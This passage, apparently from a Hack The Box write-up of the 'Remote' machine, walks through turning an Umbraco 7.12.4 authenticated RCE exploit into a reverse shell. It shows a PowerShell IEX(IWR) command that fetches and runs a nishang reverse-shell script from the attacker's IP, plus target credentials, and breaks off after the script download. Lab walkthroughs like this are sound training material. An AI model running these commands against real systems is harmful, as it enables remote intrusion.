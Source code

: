 ```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ searchsploit -m aspx/webapps/46153.py 
  Exploit: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46153
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46153.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/Kyd0s/HTB/Remote/46153.py


                                                                                                                            
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ gedit 46153.py 

```
Lines ```27-28``` and ```34-36``` are the ones we are interested in, so we modify the following and save the file:

```bash
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
```

```bash
login = "XXXX;
password="XXXX";
host = "XXXX";
```
With the following

```bash
{ string cmd = "IEX(IWR http://10.10.16.4:80/Invoke-PowerShellTcp.ps1 -UseBasicParsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
```

```bash
login = "admin@htb.local";
password="bacon*********";
host = "http://10.10.10.180";

```
Now we can download the ```PowerShellTcp.ps1``` from ```https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1``` and append ```Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.4 -Port 4444``` to the ps1 file.
```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
--2025-10-19 08:53:18--  https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4339 (4.2K) [text/plain]
Saving to: ‘Invoke-PowerShellTcp.ps1’

Invoke-PowerShellTcp.ps1       100%[====================================================>]   4.24K  --.-KB/s    in 0.001s  

2025-10-19 08:53:18 (5.60 MB/s) - ‘Invoke-PowerShellTcp.ps1’ saved [4339/4339]

┌──(Kyd0s㉿kali)-[~/HTB/Remote]
```